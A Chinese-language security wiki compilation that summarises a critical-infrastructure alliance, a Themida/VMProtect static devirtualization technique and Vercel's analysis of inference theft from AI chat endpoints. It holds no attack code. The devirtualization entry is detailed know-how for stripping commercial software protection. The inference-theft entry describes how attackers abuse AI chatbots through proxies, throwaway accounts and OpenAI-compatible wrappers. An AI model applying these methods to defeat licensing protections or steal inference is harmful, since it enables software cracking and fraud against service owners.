JPMorgan Chase（金融）+ Mastercard（支付）+ AT&T（电信）+ Berkshire Hathaway Energy（能源）—— 这四家不是随机选择，是美国关键基础设施的四个核心节点。 加上 Lumen Technologies（光通信）和 Southern Company（电力）等核心成员，ACI 的覆盖范围实质上是「金融 + 支付 + 电信 + 能源 + 公用事业」的网络物理基础设施。给做行业分析的启示是：ACI 名单本身就是美国关键基础设施的「最小覆盖集」——任何针对美国关键基础设施的网络攻击（无论是勒索软件、APT、还是 polycrisis 场景），都会触发这五到六个行业的级联响应。监控这些公司的联合声明、白皮书、公开测试结果，是预判美国关键基础设施安全态势的高信噪比信号。

### 6. 18 个月路线图是观察联盟成熟度的窗口

ACI 接下来 18 个月的工作包括：建立工作组、定义试点项目、审查会员申请、与政府机构/SCC/ISAC/智库协作。 具体的 polycrisis 响应工作是与 CISA 合作扩展 incident-response playbooks 来反映跨部门协作。 试点项目可能包括区域性试点（事件响应、信息共享、服务恢复）涉及水处理厂、健康诊所、军事基地等。 给行业观察者的具体建议是：盯 18 个月内 ACI 发布的两个东西——① 跨部门依赖白皮书（第一个支柱的产出），能直接反映「跨行业级联故障」的当前建模能力；② polycrisis 联合响应协议（第二个支柱的产出），能反映 ACI 协调能力的实际成熟度。如果 2027 年中前这两个产出都到位，ACI 才算真正建立了可持续的协调能力。

## 实践启示

1. **跨部门依赖建模应纳入企业风险评估**：传统 SPOF 模型不够用，企业架构师要主动建模「行业级联故障路径」——本行业被影响时，会触发哪些相邻行业的次生故障。这正是 ACI 第一个支柱要解决的核心问题。
2. **观察关键基础设施联盟成熟度用两个产出物**：跨部门依赖白皮书 + polycrisis 联合响应协议。这两份文件是判断联盟可持续协调能力的硬指标。18 个月内到位才算真正建立协调能力。
3. **建立新组织时第一步是定义「我不做什么」**：ACI 的关键清醒是「不想重复 ISAC/SCC 已有的功能」。这种制度边界设计是新组织能避免与既有组织零和博弈的关键。
4. **私人部门自组织是带边界的能力补充**：政府撤退时私人部门能补的是协调层和运营层，但信息源（主权情报）和制度保障（反垄断豁免）必须由公共部门提供。这两件事不能被自组织联盟替代。
5. **CIPAC 类框架是产业联盟的隐形基础设施**：能私下协调 + 不违反反垄断法 + 接收主权情报，这三件事是产业联盟的隐形基础设施。给跨国 IT 架构师的启示是评估任何产业联盟可持续性时，先看它是否解决了「情报源 + 法律保护 + 制度对接」这三个底层问题。
6. **监控 ACI 创始成员是预判关键基础设施安全态势的高信噪比信号**：JPMorgan/Mastercard/AT&T/Berkshire Hathaway Energy 覆盖了金融+支付+电信+能源的网络物理节点，其联合声明、白皮书、公开测试结果是观察美国关键基础设施安全态势的最佳窗口。
7. **复合危机演练需要物理+数字叠加场景**：传统单事件演练（飓风 OR 网络攻击）不够，polycrisis 演练必须是物理+数字同时发生的叠加场景，并明确「坏日子那天」决策权的归属。

## 相关实体

- [Ai Agents Security Survey Attack Defense](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-agents-security-survey-attack-defense.md)
- [Anthropic Llm Attck Navigator Cyber Operations](https://github.com/QianJinGuo/wiki/blob/main/entities/anthropic-llm-attck-navigator-cyber-operations.md)
- [Agent Security Three Step Sequence Harness Governance Identity Crewai](https://github.com/QianJinGuo/wiki/blob/main/entities/agent-security-three-step-sequence-harness-governance-identity-crewai.md)
- [Ai Gateways Vs Mcp Gateways What Security Teams Need To Know](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-gateways-vs-mcp-gateways-what-security-teams-need-to-know.md)
- [Aws Software Supply Chain Security Well Architected Best Practices](https://github.com/QianJinGuo/wiki/blob/main/entities/aws-software-supply-chain-security-well-architected-best-practices.md)
- [Cilium Tetragon Kubernetes Runtime Security Ebpf](https://github.com/QianJinGuo/wiki/blob/main/entities/cilium-tetragon-kubernetes-runtime-security-ebpf.md)
- [Ai Tool Poisoning Exposes A Major Flaw In Enterprise Agent Security](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-tool-poisoning-exposes-a-major-flaw-in-enterprise-agent-security.md)
- [Ai Traffic Cyberthreat Benchmark 2026](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-traffic-cyberthreat-benchmark-2026.md)
- [Cisco Preps For A World Of Ai Agent Coworkers Frontier Model Threats](https://github.com/QianJinGuo/wiki/blob/main/entities/cisco-preps-for-a-world-of-ai-agent-coworkers-frontier-model-threats.md)
- [Securing Ai Agents How Aws And Cisco Ai Defense Scale Mcp And A2A](https://github.com/QianJinGuo/wiki/blob/main/entities/securing-ai-agents-how-aws-and-cisco-ai-defense-scale-mcp-and-a2a.md)
- [Anthropic To Share Mythos Cyber Flaw Findings With Global Finance Watchdog](https://github.com/QianJinGuo/wiki/blob/main/entities/anthropic-to-share-mythos-cyber-flaw-findings-with-global-finance-watchdog.md)
- [5238213](https://github.com/QianJinGuo/wiki/blob/main/entities/5238213.md)
- [5237875](https://github.com/QianJinGuo/wiki/blob/main/entities/5237875.md)
- [820297](https://github.com/QianJinGuo/wiki/blob/main/entities/820297.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)

---

## Ch12.022 Static Devirtualization of Themida

> 📊 Level ⭐⭐ | 13.1KB | `entities/2026.md`

# Static Devirtualization of Themida

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/2026.md)

> **Note**: 实体 slug 为 `2026` 是源 URL 路径中日期生成的产物，内容实际是 Back Engineering Labs (IDontCode, naci) 发表的 Themida/CodeVirtualizer 静态去虚拟化技术深度分析。

## 摘要

Back Engineering Labs 公开了对 **Themida/CodeVirtualizer** 这类基于虚拟机（VM-based）的二进制混淆器的静态去虚拟化技术。核心方法不依赖 VM 特定的模式匹配，而是通过 **Guided Symbolic Evaluation + SSA IR + 一套通用编译器优化 Pass** 把虚拟化的代码还原为可执行的原生代码。该方法对 VMProtect、Themida、vxlang、EagleVM 等多种 VM 混淆器都适用。配套引擎 **BLARE2** 支持 AMD64/ARM64 双架构 + 完整的 Pass 系统、优化器、指令选择器、寄存器分配器和链接器，能产出与原始函数近 1:1 的输出。

## 核心要点

### 为什么不用模式匹配

直接对 VM handler 做 x86 指令的模式匹配（pattern matching）**不可扩展**——任何 protector vendor 对 handler layout、opcode tables、dispatch logic 的微小修改都会让工具在一整个版本范围内静默失效。本方法刻意最小化对 VM 特定知识的依赖，这正是它能跨多个 Themida 版本通用的根本原因。

### Themida 与 VMProtect 的关键差异

- **VM context 和虚拟栈位置**：Themida 在 binary 内部（支持嵌套虚拟化），VMProtect 在 native stack 上
- 真正影响去虚拟化的 VM 特定组件只有两个：**virtual branching** 与 **VMEXIT behavior**
- 其余优化对所有 VM 混淆器通用

### 核心方法：Guided Symbolic Evaluation

将原生指令提升（lift）到可塑的中间表示（SSA IR），通过优化让未知分支目标逐步具体化（concretize），从而推进 lifting 过程：

1. 所有寄存器和 flags 初始符号化（symbolic），**栈指针 RSP 例外，给一个具体初值**
2. 反汇编并提升指令，直到下一条指令指针无法确定
3. 根据控制流指令类型决定下一步：
   - `ret` → 最后一次对 RSP 的 store 是下一个 IP
   - 地址无法具体化 → 优化未跑够 OR 分支有多个真实目的地（如虚拟化的 JCC）

**为什么 RSP 保持具体值**：栈访问可由已有 load/store 传播机制自动处理；任何调整栈指针的算术可常量折叠。代价是不支持动态栈分配（如 `alloca`），但在被虚拟化的函数中极少出现。

### 优化 Pass 套件

| Pass | 作用 | 关键约束 |
|------|------|---------|
| **Constant Promotion & Memory Modeling** | 把 bytecode 地址的 load 提升为常量；可配置内存范围，避免误伤用户数据；字节级别的 store-forward | 关键失败模式：从被写过的地址 promote → 错误；over-promotion 破坏原始语义 |
| **Constant Folding** | 所有操作数已知时直接替换为结果；**必须跑到收敛** | 单趟可能不够，需 fixed point |
| **Dead Store Elimination** | 移除 VM 私有内存区域的死存储；**广义上不安全**（MMIO/异常流可能观察"死"存储） | 仅对 Themida 自有 section 安全；不开会导致 IR 像 VM 解释器而非函数 |
| **Instruction Combination** | 代数恒等式简化（消除自抵消算术、冗余 mask、identity 乘法等） | 必须跑到收敛 |
| **Branch Folding** | 当 flag 计算解析为常量后，opaque branch 可消除 | 依赖前面 Pass 完成 |
| **VMEXIT Behavior** | 通过 RSP 与 initRSP 的差值判断 VMEXIT 类型（call/正常返回/不支持指令） | 关键模式：VMEXIT-CALL 时 `RSP = initRSP - 0x10`，call target 在 RSP，return address 在 RSP+0x8 |
| **Virtualized Control Flow** | 记录所有 VIP（virtual instruction pointer），识别 backedge 为循环而非展开 | VMProtect 简单（最后一个 module load 即 VIP）；**Themida VJCC 需追踪 branch_taken_flag** |
| **Dead Dependency Analysis** | 确定 VM 退出后真正活跃的寄存器和 flags | 否则 IR 携带无锚定的符号表达式 |
| **Stack Pointer Rewrite** | 把常量栈地址重写回 RSP-relative 形式 | 验证：不应出现负偏移（会进 red zone） |

### Lowering IR：BLARE2 的关键贡献

BLARE2 是 Back Engineering Labs 的内部 lifting+recompilation 引擎：
- 自定义 SSA IR，支持 AMD64 + ARM64
- 完整的 Pass system、optimizer、instruction selector、register allocator、linker
- **能将优化后的 IR 重新降低（lower）为原生代码并写回 binary，输出近 1:1**

关键约束：**register pressure**——如果 register allocator 溢出（spill），去虚拟化代码会有独立栈帧，导致 IDA/Binary Ninja 误读栈传递的参数。

### Themida VJCC 的特殊处理

Themida 的 VJCC handler 把条件结果先写入 VM context 的 `branch_taken_flag`，VIP 在 handler 末尾才推进。这意味着：
- 符号执行在 VIP 解析前就遇到 branch fork
- 两条路径都要探索
- 正确的 VIP 要通过 conditional VPC 更新逻辑追踪，**不能用"最后一个 module load"的简单启发式**

### 结果

- 去虚拟化输出与原始函数功能 1:1
- 寄存器和指令选择可能不同（register allocator/instruction selector 的选择差异）
- 关键是**没有 register spilling**——recovered code 与原始一样紧凑
- 输出可执行，能在 disassembler 中干净加载
- 配套仓库：https://github.com/backengineering/themida-devirt

### 如何防御符号求值

唯一可行方向是**让间接跳转目标无法具体化**：
- 用 MBA（Mixed Boolean-Arithmetic）表达式 + opaque values 编码——但近年已被 [LLVM-powered devirtualization 技术](https://blog.thalium.re/posts/llvm-powered-devirtualization/)与 Back Engineering 的方法常规化破解
- 更强的反符号求值技术存在（CodeDefender 重型防护层实现），但具体细节不在此文范围

## 深度分析

### 1. "通用优化打败 VM 特定知识"是去虚拟化范式的胜利

本文最重要的论断是：**绝大部分去虚拟化工作由一组通用编译器优化完成，VM 特定知识只在控制流（虚拟分支与虚拟调用）处必需**。这与十年来逆向工程界的主流方法（基于 VM 架构精细分析）形成鲜明对比。

底层原因：VM 混淆本质上是给原始程序套了一层"解释器"皮，而解释器的核心特征（fetch-decode-dispatch 循环、bytecode-driven 分支、虚拟寄存器状态）都可以通过**常量传播 + 折叠 + 死代码消除**自然蒸发。VM-specific 知识只在"解释器自己依然是无法静态决定的"时刻才必要（如虚拟 JCC 双路径探索）。

这一范式的实际工程影响是：**一个去虚拟化引擎可以同时支持多个 VM 混淆器**（VMProtect、Themida、vxlang、EagleVM、covirt、binprotect），只需针对各家虚拟分支机制做最小适配。

### 2. SSA + Pass-feeding-pass 的复利效应

文章一个极易被忽视但极重要的细节：**优化 Pass 之间互相喂数据，整个 VM scaffolding 是作为所有 Pass 共同运行到收敛的副产品而瓦解的**。

具体流程链：
```
bytecode load → constant promotion 
  → 解密算术 fold 
  → 具体的 handler index 
  → handler table lookup 解析 
  → 下一个 handler 地址成为常量 
  → 继续 lifting
```

任何单个 Pass 都无法独立完成去虚拟化，**收敛性（running to fixed point）和 Pass 间数据流是核心**。这与现代 LLVM 优化器的"Pass pipeline 设计"哲学完全一致——LLVM 工程师不发明万能 Pass，而是让简单 Pass 在合适顺序下相互喂数据。

### 3. "可配置内存范围"是把通用方法安全化的关键

Dead Store Elimination 在一般情况下是不安全的（MMIO、异常流可能观察到"死"存储）。本方法的解决思路是**限定作用范围**：仅对 Themida 自有 section 内的 store 做消除。这种"通用算法 + 范围约束"的模式可推广到其他危险优化（如 alias 分析、SSA reconstruction）。

类似地，Constant Promotion 的 over-promotion 风险也通过 configurable range policy 解决——程序员显式指定哪些内存范围"VM 私有可 promote"，哪些是用户数据"必须保守对待"。

**这是逆向工程中"通用方法 + 上下文约束 = 工业可用"的典型工程模式**。

### 4. 为什么作者怀疑 LLVM-based 框架

文章末尾对 LLVM 的态度值得关注：作者承认 LLVM 能产出优秀的 IR 输出，但**怀疑它在"把 IR 重新降低为可写回 binary 的紧凑原生代码"环节**。

具体痛点：
- LLVM 的 register allocator 在 spill 时生成额外栈帧
- 这些栈帧会破坏栈传参的语义，使 IDA/Binary Ninja 误读
- 输出无法"无缝重新插入" binary

这暴露了 LLVM 作为通用编译器框架的边界：**通用编译器为"从源码到二进制"优化，去虚拟化需要"从二进制片段回到二进制片段"**，两者在 backend 约束上有本质差异。BLARE2 的价值正是把 backend 约束做对——这是十年研究积累的成果，难以快速复制。

### 5. 这项工作对软件保护行业的冲击

本文公开了对 Themida（市场份额仅次于 VMProtect 的商用 VM 保护器）的有效破解方法，且代码即将开源。这意味着：
- 单纯依赖 Themida/VMProtect 的商业软件防破解失效
- 软件保护行业需要新一代防御：让 indirect jump destination 永远不可具体化
- CodeDefender 这类作者自家产品（声称已实现重型防护）将获得市场窗口

商业上看，**反混淆研究的公开速度往往超过混淆器演进速度**——这是攻防节奏不对称的典型表现。

### 6. 符号执行 + SSA IR 在 AI Agent 领域的潜在借鉴

虽然本文是逆向工程主题，但其方法论可以反哺 AI Agent 工程：
- "通用 Pass + 配置化范围约束" 类似 [nanobot](https://github.com/QianJinGuo/wiki/blob/main/entities/nanobot-agent-framework-architecture-deep-dive.md) 的"统一 Tool 接口 + Skill 范围声明"
- "Pass-feeding-pass 收敛到 fixed point" 类似 ReAct 循环中"thought→action→observation→thought..."直到稳定
- "SSA IR 让所有变换可追溯" 类似 Agent 决策需要 audit log

**两个领域都需要"通用机制 + 受控可观察性"**——这是复杂系统工程的元模式。

## 实践启示

1. **逆向工程方法选型**：放弃 VM 特定 pattern matching，选择"SSA IR + 通用优化 Pass + 最小 VM 特定知识"路线。学习曲线更陡但跨混淆器通用。

2. **优化 Pass 设计原则**：永远把"收敛性"作为正确性条件，单趟 Pass 几乎总是不够。Pass 之间应有显式的数据流依赖图。

3. **危险优化的安全化**：对 dead store elimination、constant promotion 这类潜在破坏语义的 Pass，引入"作用范围声明"机制，让用户显式指定安全边界。

4. **lifting + lowering 的对称性**：去虚拟化引擎不仅要会 lift（IR 生成），更关键是会 lower（IR 回到可写回的原生代码）。这是 BLARE2 与 LLVM-based 方案的本质差距。

5. **VMEXIT 模式识别**：通过 RSP 与 initRSP 的差值判断 VMEXIT 类型，是一种轻量且高效的控制流分类机制。可推广到任何"通过栈状态判断控制流路径"的场景。

6. **VIP 跟踪是反虚拟化的关键**：所有 virtual instruction pointer 必须记录，否则虚拟循环会被展开为指数级 IR。这是符号执行任何 VM-based 系统的通用经验。

7. **软件防护的未来方向**：MBA 表达式已不再有效，需要从"让 branch 目标看起来不可求值"升级到"让 branch 目标在数学上不可求值"（如真随机预言机、可证伪的密码学构造）。

8. **工具公开 vs. 商业策略**：作者既公开方法论与样本仓库（吸引学术影响力），又把重型防御保留在自家 CodeDefender 中（商业护城河）——这是技术博客作为商业 inbound 营销的教科书案例。

## 关联实体

- [Nanobot Agent Framework Architecture Deep Dive](https://github.com/QianJinGuo/wiki/blob/main/entities/nanobot-agent-framework-architecture-deep-dive.md) — "通用机制 + 范围约束"的元模式在 Agent 领域的应用
- [Harness Engineering Framework](https://github.com/QianJinGuo/wiki/blob/main/concepts/harness-engineering-framework.md) — 系统工程中"通用 + 可配置"的范式

## 相关链接

- 原始博客：https://back.engineering/blog/09/05/2026/
- 配套仓库：https://github.com/backengineering/themida-devirt
- BLARE2 上下文：https://back.engineering/blog/17/05/2021/
- Themida 架构研究：https://github.com/stuxnet147/Themida-Research
- VMP 去虚拟化参考：https://github.com/JonathanSalwan/VMProtect-devirtualization

---

## Ch12.023 Inference Theft as AI Endpoint Attack Surface — Vercel Token Theft Defense 2026

> 📊 Level ⭐⭐ | 13.1KB | `entities/vercel-inference-theft-ai-endpoint-economics-2026.md`

# Inference Theft as AI Endpoint Attack Surface — Vercel Token Theft Defense 2026

> **核心问题**：AI endpoint 是 2026 年最高利润的攻击面之一。HTTP 请求成本 $2/million calls，AI prompt 成本 $2/call，**价差 1,000,000x**。攻击者用 residential proxy + 一次性账号即可绕过 session-level 验证，转售盗用的推理资源。

## 三条独有贡献（与同类安全 entity 区分）

1. **推理资源盗窃经济学** — 给出具体的 $2/million vs $2/call 价差量化（其他 agent security entity 都没有这层经济分析） ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]
2. **Per-request 验证 vs per-session 验证** — 揭示了为什么 rate limit + auth wall 失效：session-level 验证被 amortize 摊薄到 thousands of stolen calls（ammaraskar 1-click 走的是 webview PoC 路径，完全不同的攻击维度） ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]
3. **OpenAI/Anthropic-compatible adapter 滥用模式** — 攻击者用标准 SDK 接口包一层你自定义的 endpoint，通过 residential proxy 扇出调用（这种"endpoint 标准化的代价"在其他 supply chain 实体中未讨论） ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

## 攻击面分类

Vercel 团队按暴露程度排序： ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

| 暴露级别 | Endpoint 类型 | 风险 | 原因 |
|---------|-------------|------|------|
| **最高** | AI playgrounds（调用方可控 prompt/model/params） | 极高 | stolen calls 直接 drop-in 到任何 standard client |
| 中等 | 客服 bot / 文档 assistant（系统 prompt 固定） | 中等 | 攻击者用 prompt 绕过技术可绕开 fixed prompt，转售仍盈利 |
| 最低 | Internal API（强 auth + 低 latency） | 低 | 不暴露在公网，难以规模化盗用 |

**关键洞察**：resale value 取决于 stolen calls 多容易 drop-in 到 provider-compatible client — 这解释了为什么 OpenAI-compatible endpoint 是最危险的。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

## 为什么 Web 防御不奏效

| 防御层 | 为什么不够 |
|--------|----------|
| IP rate limit | 攻击者用 residential proxy fleet，单 IP 触发限流的概率低 |
| Auth wall（per-session） | per-session 验证被 thousands of calls 摊薄成本 |
| CAPTCHA | 自动化 CAPTCHA solving 服务 $1-3/1000 次，比盗用收益便宜 |
| WAF 规则 | 推理调用模式与正常用户难以区分 |

**Vercel 的解决方案**：BotID — deep analysis on every request, not per-session。重点是把"per-request 验证"作为架构默认，而不是 per-session 兜底。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

## 与同类安全实体的差异化

| 现有 entity | 焦点 | 与本文的轴 |
|------------|------|----------|
| `vscode-github-token-stealing-1-click-pwn-ammaraskar-2026` | 1-click PoC via webview postMessage | **代码层漏洞** |
| `ai-coding-agent-quality-defense-five-control-mechanisms` | 5 大 control mechanism for AI coding agent | **Code quality / SDLC** |
| `ai-tool-poisoning-exposes-a-major-flaw-in-enterprise-agent-security-v2` | 17KB supply chain attack | **MCP / 工具供应链** |
| **本文 (Vercel inference theft)** | **AI endpoint 推理资源盗用经济学** | **Cost economics / per-request defense** |

四个 entity 覆盖四个不同轴（PoC / SDLC / supply chain / economics），共同构成 agent security 知识图谱。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

## 关键 takeaway

- **Per-request 验证 > per-session 验证** — 这是 2026 年 AI endpoint 安全的 architectural default
- **推理资源盗窃的 ROI 远超 Web 攻击** — 价差 1,000,000x 让 residential proxy + 自动化账号注册的成本可忽略
- **OpenAI/Anthropic-compatible API 标准化是一把双刃剑** — 开发者接入门槛降低，攻击者转售门槛也降低
- **AI playgrounds 是头号目标** — 调用方完全控制 prompt/model/params，stolen calls 无需适配

## 引用

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md) ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

---

## 深度分析

**1. 百万倍价差是结构性攻击激励，不是边缘风险** ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

文章开篇即给出核心数字：HTTP 请求 ~$2/million，AI prompt 单次 $2，价差 1,000,000x 。这个价差不是安全漏洞，而是 AI serving 成本结构的固有特征。只要 frontier model 的 per-token 推理成本高于 HTTP 请求，resale 就有正利润。Vercel 将此定性为"highest-margin businesses an attacker can run"，意味着这是系统性问题，不是偶发漏洞。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

**2. Per-session 验证天然被攻击者摊薄 — 经济学上无法防御** ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

Rate limit 和 auth wall 失效的根本原因不是技术实现问题，而是验证粒度与攻击规模的数学关系 。一次性注册账号 + 一次性住宅代理采购 = bypass 成本固定；被盗用的 inference calls 数量无限。Per-session 验证的 bypass 成本分摊到 thousands of stolen calls，单次被盗 call 的防御成本趋近于零 — 攻击者只需让 stolen calls 数量超过 bypass 成本即可盈利。这是per-request 验证成为必选的根本原因。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

**3. OpenAI-compatible adapter 是攻击规模化的工程杠杆** ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

攻击者不需要针对每个 victim's API 写定制客户端 — 只需包装一层 OpenAI/Anthropic-compatible adapter，被盗的 inference 就能 drop-in 到任何 standard SDK 。Chipotlai Max 案例表明，攻击者将连锁餐厅客服 chatbot 转化为 OpenAI-compatible endpoint 并公开招募志愿者扩展到 Home Depot、Lowe's、Target、Starbucks。这揭示了 API 标准化在安全层面的双刃剑效应：开发者接入成本降低，攻击者转售成本同样降低。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

**4. 真实攻击案例：1,300 req/min、$10K/day 的经济驱动** ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

2026 年 4 月 12 日 Vercel docs AI chat endpoint 遭受攻击，流量峰值达到正常量的 10 倍，涉及 Anthropic Claude Haiku 4.5，峰值 1,300 req/min，换算日均推理成本超过 $10,000 。攻击流量经 residential proxy 路由，跨数十万 bot 请求，per-IP rate limit 完全失效。这个案例不仅是事件记录，更验证了前述经济模型的实战有效性：$10K/day 的潜在收益完全覆盖 residential proxy fleet 的运营成本。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

**5. BotID deep analysis 在 per-request 层重建防御边界** ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

Vercel 的解决方案不是改进 per-session 验证，而是将验证下沉到 per-request 层 。BotID deep analysis 在 攻击开始后数分钟内检测并阻断了超过 10,000 个 bot 请求，24 小时内 endpoint 请求量回落至正常水平。这说明 per-request 验证不仅在理论上有效，在实战中也具备快速收敛能力。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

---

## 实践启示

**1. 将 per-request 验证设为 AI endpoint 防御的 architectural default** ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

不要依赖 per-session auth 或 IP-based rate limit 作为主要防线。Any check that runs per session amortizes the attacker's bypass cost across every subsequent inference call 。在 route handler 入口处嵌入 per-request 验证，让每次 AI request 都独立通过验证，使攻击者无法通过一次 bypass 获取多次被盗 call。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

**2. 优先保护 AI playgrounds — 最高控制权意味着最高 resale value** ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

AI playgrounds 的危险在于调用方同时控制 prompt、model 和 parameters 。Stolen calls 无需任何适配即可 drop-in 到任何 standard client。按攻击面优先级审计时，AI playgrounds 应列为最高暴露等级，优先部署 per-request 验证和深度流量分析。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

**3. 对 residential proxy fleet 的检测需要行为特征，而非 IP 指纹** ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

攻击者通过数千个 residential proxy IP 稀释 per-IP rate limit 。传统 IP-based 防御在此场景失效。BotID 的客户端机器学习方案通过行为分析（而非 IP 指纹）区分人类和 bot，在 residential proxy 大规模使用时仍能有效检测。这是防御 inference theft 的正确技术方向。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

**4. 警惕 OpenAI-compatible adapter 的攻击面扩展** ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

如果你的 AI API 设计为 OpenAI 或 Anthropic 兼容，攻击者可以将被盗 inference 转售给任何使用标准 SDK 的下游客户 。在设计 API 时，需要将 adapter 层也纳入防御边界 — 验证需要在 adapter 转发到你的 endpoint 时执行，而不是依赖 adapter 自身的 session 管理。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

**5. 监控 endpoint 流量模式，设置异常 cost run rate 告警** ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

Vercel 案例中，攻击导致流量达到 10x 正常量 。建议在 AI endpoint 层设置 cost run rate 监控，设定 $/hour 或 $/day 阈值告警。这样可以在攻击规模化之前提前感知，而不是等到账单曝光才发现。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

---

## 关联阅读

→ [Vscode Github Token Stealing 1 Click Pwn Ammaraskar 2026](https://github.com/QianJinGuo/wiki/blob/main/entities/vscode-github-token-stealing-1-click-pwn-ammaraskar-2026.md) — 另一个高利润 AI endpoint 攻击向量：通过 VS Code webview postMessage 实现的 1-click token stealing PoC。与本文的攻击经济学框架互补：ammaraskar 实体聚焦代码层漏洞（postMessage 处理缺陷），本文聚焦推理资源的经济学驱动因素和 per-request 防御架构。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

→ [Ai Coding Agent Quality Defense Five Control Mechanisms](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-coding-agent-quality-defense-five-control-mechanisms.md) — 从 agent 使用方视角的系统性防御策略：5 种 control mechanisms 防止 AI coding agent 产出低质量代码。 inference theft 是攻击方利用 AI endpoint 经济价值的案例，该 entity 提供了 agent 使用方在接收方一侧的防御思路，两者共同构成 AI agent security 的攻防全景。 ^["[Vercel Com Blog Protecting Against Token Theft](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/vercel-com-blog-protecting-against-token-theft.md)"]

---

## Ch12.024 Apple corecrypto formal verification blueprint — post-quantum ML-KEM/ML-DSA in iMessage

> 📊 Level ⭐⭐ | 13.0KB | `entities/apple-corecrypto-formal-verification-blueprint.md`

# Apple corecrypto formal verification blueprint — post-quantum ML-KEM/ML-DSA in iMessage

> 原文存档：[原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/apple-corecrypto-formal-verification-blueprint.md)

